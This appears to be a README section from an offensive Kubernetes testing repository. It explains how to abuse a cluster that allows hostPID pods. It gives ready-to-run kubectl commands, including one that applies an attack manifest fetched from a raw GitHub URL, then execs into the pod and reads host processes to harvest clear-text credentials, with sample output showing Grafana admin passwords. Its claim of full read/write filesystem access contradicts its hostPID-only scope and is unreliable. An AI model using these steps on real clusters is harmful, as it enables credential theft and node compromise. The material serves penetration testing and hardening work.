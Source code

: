 ## You can create a pod with only hostPID

You are exploiting the fact that there are no polices preventing the creation of pod with access to the node's filesystem. You are going to create a pod and gain full read/write access to the filesystem of the node the pod is running on. 

[pod-hostpid-only.yaml](pod-hostpid-only.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostpid-only.yaml   
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-hostpid-only.yaml  
```

### Exec into pod 
```bash 
kubectl -n [namespace] exec -it pod-hostpid-only -- bash
```
### Post exploitation
```bash
# View all processes running on the host and look for passwords, tokens, keys, etc. 
# Check out that clear text password in the ps output below! 

ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...

# Also, you can also kill any process, but don't do that in production :)
```

